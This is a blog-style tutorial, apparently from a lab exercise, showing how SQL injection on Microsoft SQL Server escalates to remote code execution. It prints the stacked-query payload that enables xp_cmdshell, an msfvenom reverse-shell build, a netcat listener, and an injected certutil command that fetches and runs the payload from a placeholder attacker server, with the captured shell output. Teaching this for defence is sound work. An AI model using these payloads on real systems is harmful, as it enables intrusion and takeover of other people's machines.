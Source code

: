 ```yaml
---
layout: post
title: From SQLi to remote code execution
---
```


SQL injection opens the way to data manipulation and theft, but I recently discovered that it can be an attack vector enabling **remote code execution** (RCE). This highly critical vulnerability gives the attacker access to the target machine.

There are multiple variants of how to escalate the attack depending on which Database Management Systems (DBMS) and OS the target uses. For this article, I'll show how an attacker might do it in an application having Microsoft SQL Server as DBMS and running on a Windows machine.

### SQLi
SQL injection (SQLi) is a common web security vulnerability. It allows an attacker to tamper with the SQL query an application makes to the database.    
SQLi was frequently included in the [OWASP Top 10](https://www.owasptopten.org/).

As a quick refresher on SQLi, let's take the example of a marketplace that allows users to delete one of their own products. The client will send a `DELETE /products/PROD_ID` request. Server-side, a `$productId` variable is initialized with the value of the `PROD_ID` parameter. It will send this query to the DB:  

```sql
DELETE * FROM products WHERE id = '$productId'; 
```

A malicious user can send this parameter `' OR 1=1--`. If the server does not sanitize and validate the input, it results in the following query. This triggers the deletion of all products:

```sql
DELETE * FROM products WHERE id = '' OR 1=1--';
```

### Store procedures
These are SQL statements that can be reused, think of them as functions in SQL. Many DBMS offer their own stored procedures, Microsoft SQL Server has **xp_cmdshell**.

xp_cmdshell provides a way for the SQL Server to directly execute OS commands and programs. As you can already see, this might pose a security risk.    
For good reasons, this functionality is by default disabled on production servers. But due to specific requirements or just plain misconfigurations, you can sometimes find it enabled.   
In some cases, an attacker can manually enable xp_cmdshell via `EXEC` queries. This is possible if the database user has one of these attributes:
- *sysadmin* server role
- `ALTER SETTINGS` server-level permission

An attacker might enable it by using [batched (or stacked) queries](https://portswigger.net/web-security/sql-injection/cheat-sheet) and injecting the following configuration options:

```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

From the [documentation](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16<):

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Escalating to RCE
Now that the attacker has detected a SQLi vulnerability and can access xp_cmdshell, the following steps are:
1. Create a malicious payload (a **rshell.exe** file) with **MSFVenom**
2. Serve this file
3. Set up a listener for incoming connections from the target machine
4. On the target machine, use the **certutil.exe** Windows program to download this file from our controlled server (from step 2)
5. Execute the **rshell.exe** file on the target machine to create a reverse shell connection back to the listener on our machine.

> [certutil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) is a native Windows CLI program part of Certificate Services. It is signed by Microsoft and used to make HTTP/s connections.
>
> [MSFVenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) is a CLI payload generation tool, and it comes with plenty of utilities used in pen testing and ethical hacking. 

### First step
On my machine, I will use MSFVenom to create our payload (change `MY_LISTENER_IP_ADDR` to your own).

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MY_LISTENER_IP_ADDR LPORT=3333 -f exe -o rshell.exe
```

A new file called **rshell.exe** has been created.

### Second step
Still on my machine, I will start a Python server, in order to server this file:

```shell
python3 -m http.server 8000
```

All files in my current directory are now accessible to download on the target machine.   

### Third step
I set up a listener using the **Netcat** utility, listening for connections from the target machine on port 3333:

```shell
nc -lnvp 3333
```

### Forth and final step
Using the SQLi vector, I can run the **xp_cmdshell** utility to download and execute this file:

```
'; EXEC xp_cmdshell 'certutil -urlcache -f http://MY_SERVER_IP_ADDR:8000/rshell.exe C:\Windows\Temp\rshell.exe'; --
```

I checked my Python server's output:

```shell
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
MACHINE_IP - - [01/Jan/2024 10:15:01] "GET /rshell.exe HTTP/1.1" 200 -
```

Suggesting that the target machine fetched my file.    
I will run the executable file on the target machine. 
```
'; EXEC xp_cmdshell 'C:\Windows\Temp\rshell.exe'; --
```
Now, if everything goes well, my Netcat listener should have a reverse shell connection:
```
nc -lnvp 3333
listening on [any] 3333 ...
connect to [99.99.99.99] from (UNKNOWN) [MACHINE_IP] 49730
Microsoft Windows [Version 10.0.13143.1731]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress
```

And great success!   
I have obtained RCE, allowing me to run commands on the target machine. I already ran the `whoami` command and got `nt service\mssql$sqlexpress` as a response.

Doing this exercise was fun as it ties the two common vulnerabilities. As SQL injection can escalate to RCE, it vastly increases the attack surface.   
This highlights how dangerous SQLi vulnerabilities are and the importance of patching them.

## Resources
- tryhackme.com
- www.w3schools.com
- portswigger.net
